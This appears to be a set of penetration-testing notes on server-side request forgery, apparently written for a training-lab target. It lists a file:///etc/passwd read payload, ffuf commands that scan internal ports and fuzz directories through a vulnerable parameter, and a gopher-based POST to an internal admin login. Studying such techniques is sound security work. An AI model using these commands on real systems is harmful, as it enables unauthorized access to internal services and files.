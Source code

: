 ## SSRF

>**ℹ️ Info:**
>
>Check for URLs or endpoints where the application gets the data externally from.
>
>To check if something is vulnerable to SSRF we can set up a Netcat listener and point the URL to our system.
>
>To check if the SSRF vulnerability is not blind,  we can make the request to itself.

### SSRF Injection Payloads
| Payload | Description |
|---------|-------------|
| `file:///etc/passwd` | Read a file |

### SSRF Port Scanner
```bash
seq 1 10000 > ports.txt
```

```bash
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

### SSRF Directory Fuzzing
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.200.202/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "404 Not Found"
```
>**ℹ️ Info:**
>
>In this case we're looking for .php files since that's what the web uses.
>
>Make sure to use `-fr` to tell ffuf what is valid and what not.

### SSRF Gopher Post Request
If we find a login portal or something needing a POST request, we can use the gopher protocol to send the request.

If we find something like this:
```html
Please Login
	<form action="/admin.php" method="post">
	    <input type="adminpw" name="adminpw" placeholder="Password" required>
	    <input type="submit" value="Login">
	</form>
```

Our POST request would be like this:
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
> ⚠️ **PAY ATTENTION:**
> 
> Make sure to put the correct `Content-Length` and `Content-Type`.
